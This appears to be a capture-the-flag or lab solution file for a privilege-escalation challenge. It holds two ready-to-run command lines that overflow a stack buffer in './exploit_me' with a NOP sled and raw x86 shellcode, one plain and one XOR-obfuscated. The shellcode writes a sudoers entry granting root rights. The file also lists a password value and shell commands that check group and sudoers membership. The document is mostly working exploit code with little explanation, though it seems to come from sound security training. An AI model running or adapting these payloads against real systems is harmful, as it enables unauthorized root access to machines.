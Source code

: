 ==== NOT OBFUSCATED WORKING VIRGIN SHELLCODE ====

./exploit_me $(python -c 'print "A"*140+"\xff\xf5\xff\xbf"+"\x90"*2014+"\x31\xD2\xB2\x45\x52\x68\x45\x41\x44\x4D\x68\x2E\x64\x2F\x52\x68\x6F\x65\x72\x73\x68\x2F\x73\x75\x64\x68\x2F\x65\x74\x63\x89\xE3\x31\xC9\x66\xB9\xFF\x01\x31\xC0\xB0\x5A\xCD\x80\x31\xD2\xB2\x45\x52\x68\x45\x41\x44\x4D\x68\x2E\x64\x2F\x52\x68\x6F\x65\x72\x73\x68\x2F\x73\x75\x64\x68\x2F\x65\x74\x63\x89\xE3\x31\xC9\xB1\x01\x31\xC0\xB0\x05\xCD\x80\x89\xC3\xBA\x2A\x6C\x45\x66\x81\xF2\x66\x66\x66\x66\x52\xBA\x4F\x46\x27\x2A\x81\xF2\x66\x66\x66\x66\x52\x68\x3A\x41\x4C\x4C\x68\x28\x41\x4C\x4C\x68\x41\x4C\x4C\x3D\xBA\x1C\x07\x1C\x46\x81\xF2\x66\x66\x66\x66\x52\x89\xE1\x31\xD2\xB2\x17\x31\xC0\xB0\x04\xCD\x80\x31\xD2\xB2\x45\x52\x68\x45\x41\x44\x4D\x68\x2E\x64\x2F\x52\x68\x6F\x65\x72\x73\x68\x2F\x73\x75\x64\x68\x2F\x65\x74\x63\x89\xE3\x31\xC9\x66\xB9\x20\x01\x31\xC0\xB0\x5A\xCD\x80\x31\xC0\xB0\x01\x31\xDB\xCD\x80"')

==== PIMPED OBFUSCATED CHAD FINAL SHELLCODE ====

./exploit_me $(python -c 'print "A"*140+"\xff\xf6\xff\xbf"+"\x90"*2014+"\x31\xD2\xB2\x45\x52\xBA\xDC\xD8\xDD\xD4\x81\xF2\x99\x99\x99\x99\x52\xBA\xB7\xFD\xB6\xCB\x81\xF2\x99\x99\x99\x99\x52\xBA\xF6\xFC\xEB\xEA\x81\xF2\x99\x99\x99\x99\x52\x68\x2F\x73\x75\x64\xBA\xB6\xFC\xED\xFA\x81\xF2\x99\x99\x99\x99\x52\x89\xE3\x31\xC9\x66\xB9\xFF\x01\x31\xC0\xB0\x0F\xCD\x80\x31\xD2\xB2\x45\x52\xBA\xDC\xD8\xDD\xD4\x81\xF2\x99\x99\x99\x99\x52\xBA\xB7\xFD\xB6\xCB\x81\xF2\x99\x99\x99\x99\x52\xBA\xF6\xFC\xEB\xEA\x81\xF2\x99\x99\x99\x99\x52\x68\x2F\x73\x75\x64\xBA\xB6\xFC\xED\xFA\x81\xF2\x99\x99\x99\x99\x52\x89\xE3\x31\xC9\xB1\x01\x31\xC0\xB0\x05\xCD\x80\x89\xC3\xBA\x2A\x6C\x45\x66\x81\xF2\x66\x66\x66\x66\x52\xBA\x4F\x46\x27\x2A\x81\xF2\x66\x66\x66\x66\x52\x68\x3A\x41\x4C\x4C\x68\x28\x41\x4C\x4C\x68\x41\x4C\x4C\x3D\xBA\x1C\x07\x1C\x46\x81\xF2\x66\x66\x66\x66\x52\x89\xE1\x31\xD2\xB2\x17\x31\xC0\xB0\x04\xCD\x80\x31\xD2\xB2\x45\x52\xBA\xDC\xD8\xDD\xD4\x81\xF2\x99\x99\x99\x99\x52\xBA\xB7\xFD\xB6\xCB\x81\xF2\x99\x99\x99\x99\x52\xBA\xF6\xFC\xEB\xEA\x81\xF2\x99\x99\x99\x99\x52\x68\x2F\x73\x75\x64\xBA\xB6\xFC\xED\xFA\x81\xF2\x99\x99\x99\x99\x52\x89\xE3\xB9\xB9\x98\x99\x99\x81\xF1\x99\x99\x99\x99\x31\xC0\xB0\x0F\xCD\x80\x31\xD2\x52\x68\x57\x4E\x45\x44\x68\x33\x31\x6D\x50\x68\x35\x3B\x31\x3B\x68\x1B\x63\x1B\x5B\x31\xDB\xB3\x01\x89\xE1\x31\xD2\xB2\x11\x31\xC0\xB0\x04\xCD\x80\x31\xC0\xB0\x01\x31\xDB\xCD\x80"')

# PASSWD
646da671ca01bb5d84dbb5fb2238dc8e

# TESTS
$ grep -Po '^sudo.+:\K.*$' /etc/group
ft_root

$ getent group sudo | cut -d: -f4
ft_root

$ getent group zaz
zaz:x:1005:

$ getent group root
root:x:0:

$ cat /etc/group | grep sudo
sudo:x:27:ft_root

$ sudo visudo
	# User alias specification
	# Cmnd alias specification
	# User privilege specification
	root    ALL=(ALL:ALL) ALL
	# Members of the admin group may gain root privileges
	%admin ALL=(ALL) ALL
	# Allow members of group sudo to execute any command
	%sudo   ALL=(ALL:ALL) ALL
	# See sudoers(5) for more information on "#include" directives:
	#includedir /etc/sudoers.d

$ ls -l /etc/sudoers.d/
total 4
-r--r----- 1 root root 753 Nov 19 13:12 README

# Only one command can reveal our sudo user
$ sudo -l
